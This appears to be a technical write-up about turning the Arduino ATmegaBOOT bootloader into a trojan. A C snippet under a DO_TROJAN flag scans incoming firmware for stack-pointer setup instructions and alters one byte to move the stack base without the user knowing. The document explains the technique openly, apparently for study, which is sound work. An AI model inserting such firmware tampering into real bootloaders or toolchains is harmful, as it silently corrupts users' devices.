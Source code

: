 Let's see how to do this. Firstly we must understand how the `ATmegaBOOT_168.c` receives and stores the incoming firmware.
```c
// (in the main bootloader command rx loop...)

/* Write memory, length is big endian and is in bytes  */
	else if(ch=='d') {
		length.byte[1] = getch();
		length.byte[0] = getch();
		flags.eeprom = 0;
		if (getch() == 'E') flags.eeprom = 1;
		for (w=0;w<length.word;w++) {
			buff[w] = getch();	// Store data in buffer, can't keep up with serial data stream whilst programming pages
		}
		if (getch() == ' ') {
			if (flags.eeprom) {	//Write to EEPROM one byte at a time
				...		
			}
			else {	//Write to FLASH one page at a time
        ...
      }
    ...
```

Interesting! So the program is loaded into flash memory one page at a time. And before it is saved, we have the bytes in a buffer...
So what happens if we scan that buffer for the key instructions that set up the stack pointer? Something a little like this?

```c
// (in the main bootloader command rx loop...)

/* Write memory, length is big endian and is in bytes  */
	else if(ch=='d') {
		length.byte[1] = getch();
		length.byte[0] = getch();
		flags.eeprom = 0;
		if (getch() == 'E') flags.eeprom = 1;
		for (w=0;w<length.word;w++) {
			buff[w] = getch();	                        // Store data in buffer, can't keep up with serial data stream whilst programming pages
		}

		#if defined DO_TROJAN && defined __AVR_ATmega328P__
		//HACK TO MOVE STACK POINTER
		for (w=7;w<length.word;w++) {
			if(	buff[w-7]==0xCF &&
			buff[w-6]==0xEF &&
			buff[w-5]==0xD8 &&
			buff[w-4]==0xE0 &&
			buff[w-3]==0xDE &&
			buff[w-2]==0xBF &&
			buff[w-1]==0xCD &&
			buff[w]  ==0xBF) {
				
				buff[w-7]=0xC0; //this moves the base stack address from 0x08FF to 0x08F0
				break;
			}
		}
		#endif

    ...
```
